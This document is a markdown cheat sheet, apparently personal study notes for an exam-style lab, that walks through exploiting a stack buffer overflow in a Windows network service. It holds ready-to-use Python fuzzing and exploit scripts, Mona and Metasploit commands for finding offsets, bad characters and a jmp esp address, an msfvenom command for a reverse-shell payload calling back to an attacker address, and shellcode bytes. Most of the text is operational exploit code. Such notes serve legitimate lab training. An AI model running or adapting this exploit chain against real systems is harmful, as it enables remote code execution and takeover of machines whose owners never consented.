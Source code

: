 # BufferOverflow

Encoding needs to be "latin-1"
End send command with "\r\n"

## Registers

### EIP

**Extended Instruction Pointer**
Register for the next command, e.g. jump back address. If you can overwrite the EIP you can control where to jump next

### ESP
**Extended Stack Pointer**
Register contains the value of the last address which was pushed to the stack. ESP ist the top point of the stack. There we can address our shellcode.

### EBP
**Extended Base Stack Pointer**
Register contains the first address of a stack. This one is dynamic and had to be definded. 

## nasm

Get opcode: 

```console
$ locate nasm_shell.rb

$ /usr/shares/metasploit-framework/tools/exploit/nasm_shell.rb
>>> jmp esp
00000000  FFE4		jmp esp
```

## Mona

```console
Set up working directory:
!mona config -set workingfolder c:\mona\%p

Find offset:
!mona findmsp -distance 600
- distance lenght of payload

Create bytearray:
!mona bytearray -b "\x00"
-b "bad chars"

Compare bytearray with bytes in stack
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

Find jump esp
!mona jmp -r esp -cpb "<all bad chars>"

!mona jmp -r esp -m <name of exe>
```

## Fuzzing

Make note of the largest number of bytes

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication and Controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Create a cyclic pattern 400 bytes longer than the crash bytes 

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

```

Copy that string to **payload**
Run the python script and crash binary again.
Check the EIP offset:

	- with mona `!mona findmsp -distance 600`
	or
	- with metasploit `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP adress>`

Set the offset in python script and change payload to "" and change `retn` to `BBBB`
Crash the server again, the EIP register should now show 4 B's -> `42424242`

## Finding bad chars

Generate a bytearray using mona (excluding \x00): `!mona bytearray -b "\x00"`

Now generate a string which is identical to the bytearray with python (excluding \x00)

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update exploit script **payload** with string generated from the above python script.
Crash binary again and check with mona for bad chars: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`

Check one after one. 
Generate a new byte array with mona e.g. `!mona bytearray -b "\x00\xa2` and remove "\xa2" from payload.
Crash binary again and compare the bytearray with esp address till message `Unmodified` appears.

## Finding jmp point

Run mona `!mona jmp -r esp -cpb "<all bad chars>"`
Choose an address and update exploit.py with the address at var `retn`
Address must be backwards! (little endian)
e.g. \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit

## Generate payload

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c

With encoding
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c x86/shikata_ga_nai
```

Copy generated C string without semicolon to exploit.py under payload

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

## Exploit

Run crash again to get a reverse shell

Opt:
Set breakpoint to jmp point address and go steps further to watch NOPs and decoding the payload.